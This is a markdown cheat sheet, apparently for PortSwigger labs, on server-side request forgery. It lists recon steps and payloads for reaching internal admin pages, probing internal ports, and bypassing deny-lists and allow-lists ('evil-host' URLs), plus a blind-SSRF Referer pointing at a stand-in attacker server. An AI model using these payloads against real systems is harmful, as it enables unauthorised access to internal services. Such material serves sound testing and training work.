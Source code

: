 # Server-side Request Forgery (SSRF)

## Summary

* [Recon for SSRF](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)


## Resources

* https://portswigger.net/web-security/ssrf

* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery 


## Recon

### Identify SSRF

* Identify any request parameters that appear to contain hostnames, IP addresses or full/partial URLs

* Modify each parameter’s value to specify another resource, similar to the one requested, and see if it appears in the response

* Try to specify a URL resource that you control out on the internet and monitor it for any connections.  If no connections are received monitor the time taken for the application to respond, if there is a delay it could be a time-out connection due to network restrictions


## Cheat Sheet

**If we find an interesting parameter that contains hostnames, IP addresses or full URLs, the following payloads can help to identify SSRF:**


### Access Control Bypass


* Use a localhost or valid internal IP address, through a SSRF vector, to potentially bypass access controls implemented on sensitive resources on the application that only allow access to admin users or through a specific IP address/network-interface:

   * Examples:

```
http://localhost/admin
```
```
http://192.168.0.5:8080/admin
```


### Resource Enumeration


* Change the parameter value to another resource and analyze how the application responds.  We can probe for port numbers, internal IP addresses, different hostnames, and analyze the application’s responses.  

* Ideally, we should know how the application responds to a valid vs invalid specified resources, so we can easily determine when an injected value is valid:

   * Examples:

```
http://192.168.0.1:22
```
```
http://192.168.0.1:8080
```


### Bypasses for disallow-list filter

* If the application is blocking requests for http://127.0.0.1 and /admin resources, we can try the following bypass techniques:

#### Other representations for 127.0.0.1:

```
http://127.1
```

#### URL Encoding:

```
%68%74%74%70%3a%2f%2f%31%32%37%2e%31
```


#### Obfuscation/Case Variation:

```
http://127.0.0.1/AdMiN
```



### Bypasses for allow-list filter

* If the application is only checking that a specific host is somewhere within the parameter, we can bypass this restriction with the following payloads:

#### Embed credentials @ in a URL before hostname:

```
https://expected-host@evil-host
```

#### \# character specifies a URL fragment:  

```
https://evil-host#expected-host
```


#### Complex method to bypass allow list restrictions (try to encode/double-encode the \#/@ characters too):

```
https://evil-host#evil-host@expected-host/evil-path
```
```
https://expected-host@evil-host/evil-path#
```


### Blind SSRF

* If the application does not return any notable differences in the responses from our SSRF payloads, then we can use Blind SSRF techniques:

* Inject a payload that will trigger an HTTP connection to a domain that you control and monitor for any network traffic.

* Inject this payload in all susceptible parameters and headers (Referer):

    * Example:  Referer: https://ATTACKER-SERVER



### SSRF via Open Redirection

* https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection
